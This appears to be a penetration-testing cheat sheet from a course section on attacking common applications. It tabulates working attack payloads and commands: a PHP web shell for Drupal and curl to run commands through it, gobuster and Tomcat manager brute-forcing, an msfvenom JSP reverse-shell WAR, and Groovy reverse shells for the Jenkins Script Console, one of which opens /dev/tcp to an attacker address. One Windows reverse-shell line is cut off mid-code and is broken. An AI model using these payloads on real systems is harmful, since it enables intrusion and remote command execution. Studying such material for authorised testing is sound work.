 | `<?php system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']); ?>`                                                                                                                                                                                 | PHP code that will allow for web shell access on a vulnerable drupal site. Can be used through browisng to the location of the file in the web directory after saving. Can also be leveraged utilizing curl. See next command. |
| `curl -s <http://domainname or IP address of site> /node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id \| grep uid \| cut -f4 -d">"`                                                                                                                  | Uses curl to navigate to php web shell file and run system commands (`=id`) on the target                                                                                                                                      |
| `gobuster dir -u <http://domainnameoripaddressofsite> -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`                                                                                                                         | `gobuster` powered directory brute forcing attack refrencing a wordlist (`/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`)                                                                                        |
| `auxiliary/scanner/http/tomcat_mgr_login`                                                                                                                                                                                                     | Useful Metasploit scanner module used to perform a bruteforce login attack against a tomcat site                                                                                                                               |
| `python3 mgr_brute.py -U <http://domainnameoripaddressofTomCatsite> -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt` | Runs mgr\_brute.py using python3 against the specified website starts in the /manager directory (`-P /manager`) and references a specified user or userlist ( `-u`) as well as a specified password or password list (`-p`)    |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address of attack box> LPORT=<port to listen on to catch a shell> -f war > backup.war`                                                                                                      | Generates a jsp-based reverse shell payload in the form of a .war file utilizing `msfvenom`                                                                                                                                    |
| `nmap -sV -p 8009,8080 <domainname or IP address of tomcat site>`                                                                                                                                                                             | Nmap scan useful in enumerating Apache Tomcat and AJP services                                                                                                                                                                 |
| `r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 \| while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()`                                                                    | Groovy-based reverse shell payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. Will work when the underlying OS is Linux                                                                 |
| `def cmd = "cmd.exe /c dir".execute(); println("${cmd.text}");`                                                                                                                                                                               | Groovy-based payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. This will allow webshell access and to execute commands on the underlying Windows system                                |
| `String host="localhost"; int port=8044; String cmd="cmd.exe"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new So);`                                                                                         | Groovy-based reverse shell payload/code that can work with admin acess to the `Script Console` of a `Jenkins`site. Will work when the underlying OS is Windows                                                                 |
| [reverse\_shell\_splunk](https://github.com/0xjpuff/reverse\_shell\_splunk)                                                                                                                                                                   | A simple Splunk package for obtaining revershells on Windows and Linux systems                                                                                                                                                 |
|                                                                                                                                                                                                                                               |                                                                                                                                                                                                                                |



## Introduction to Attacking Common Applications

***
